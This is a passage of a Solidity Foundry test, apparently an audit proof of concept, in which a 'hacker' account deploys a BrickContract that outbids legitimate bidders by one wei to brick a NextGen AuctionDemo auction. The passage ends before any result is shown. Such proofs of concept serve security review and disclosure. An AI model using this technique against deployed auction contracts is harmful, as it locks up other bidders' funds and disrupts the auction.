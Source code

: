 ```solidity
          10, // _rate
          20, // _timePeriod
          3, // _salesOptions
          delAddress // delAddress
        );
        
        nextGenMinterContract.setCollectionPhases(
          2, // _collectionID
          21, // _allowlistStartTime
          100, // _allowlistEndTime
          200, // _publicStartTime
          500, // _publicEndTime
          merkleRoot // _merkleRoot
        );
        vm.stopPrank();

        /// INFO: intilialize burn
        vm.startPrank(globalAdmin);
        nextGenMinterContract.initializeBurn(2, 1, true);
        vm.stopPrank();

        /// INFO: Deploy AuctionDemo contract and approve contract to transfer NFTs
        vm.startPrank(auctionNftOwner);
        aDemo = new auctionDemo(address(nextGenMinterContract), address(nextGenCore), address(nextGenAdmins));
        nextGenCore.setApprovalForAll(address(aDemo), true);
        vm.stopPrank();
    }


    function test_BrickAuctionDemo() public {
        /// INFO: Set up Auction Demo contract
        skip(401);
        vm.startPrank(globalAdmin);
        string memory tokenData = "{'tdh': '100'}";
        nextGenMinterContract.mintAndAuction(auctionNftOwner, tokenData, 2, 1, 500);
        vm.stopPrank();

        /// INFO: Alice bids 5 ether
        vm.startPrank(alice);
        vm.deal(alice, 5 ether);
        aDemo.participateToAuction{value: 5 ether}(10_000_000_000);
        vm.stopPrank();
        
        /// INFO: Bob bids 6 ether
        vm.startPrank(bob);
        vm.deal(bob, 6 ether);
        aDemo.participateToAuction{value: 6 ether}(10000000000);
        vm.stopPrank();

        /// INFO: John bids 5 ether
        vm.startPrank(john);
        vm.deal(john, 7 ether);
        aDemo.participateToAuction{value: 7 ether}(10000000000);
        vm.stopPrank();

        vm.startPrank(hacker);
        vm.deal(hacker, 8 ether);
        brickContract = new BrickContract(address(aDemo));
        brickContract.bid{value: 7000000000000000001}(10000000000);
        skip(101);
        console.log("This is the brickContract address: ", address(brickContract));
        console.log("This is the highest bidder: ", aDemo.returnHighestBidder(10000000000));
```